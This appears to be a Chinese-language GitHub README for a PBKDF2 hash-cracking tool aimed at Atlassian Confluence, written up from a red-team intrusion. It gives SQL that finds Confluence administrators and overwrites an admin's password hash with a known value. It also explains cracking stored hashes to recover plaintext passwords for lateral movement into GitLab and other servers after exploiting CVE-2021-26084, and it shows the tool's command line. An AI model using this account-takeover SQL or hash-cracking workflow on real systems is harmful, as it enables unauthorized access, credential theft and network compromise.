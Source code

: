 # atlassian_pbkdf2_dehash
## 初衷
atlassian confluence产品，爆发CVE-2021-26084漏洞,在一次HW项目中通过内网目标机器不出网，通过CVE-2021-26084漏洞写入公钥，拿到服务器权限。在`<confluence-home-directory>/database`
文件夹中找到数据库账号密码。一种方法是通过查找管理员，通过修改hash值登陆web管理后台。具体方法如下：
```
## 获取管理员账号，id
select u.id, u.user_name, u.active from cwd_user u
join cwd_membership m on u.id=m.child_user_id join cwd_group g on m.parent_id=g.id join cwd_directory d on d.id=g.directory_id
where g.group_name = 'confluence-administrators' and d.directory_name='Confluence Internal Directory';
## 修改密码 123123
UPDATE cwd_user SET credential = '{PKCS5S2}V1J8HcMvYsdtnETu2tjA1gFVQ1L3o+dAsNiooSAcSvpRcbkTR8K4Ha/iWgF145gk'  
WHERE id=393217; 
```

## 问题
内网IT系统内部员工账号密码一样，而修改一个confluence密码无法登陆到其他系统，给横向移动带来麻烦。通过mysql数据库账号，pbkdf2 hash值。想到通过hash碰撞到方式，获取用户明文密码。
因此编写PBKDF2(Atlassian) hash atlassian_pbkdf2_dehash 碰撞方法，获得明文密码。最终通过明文密码，拿到gitlab 用户账号密码，查找代码配置文件，拿到多台服务器，打穿内网。

## 用法
```
python3 atlassian_pbkdf2_dehash.py -p <passwordfile> -f <hashfile>
```

## 运行结果图
![image](imgmg.png)
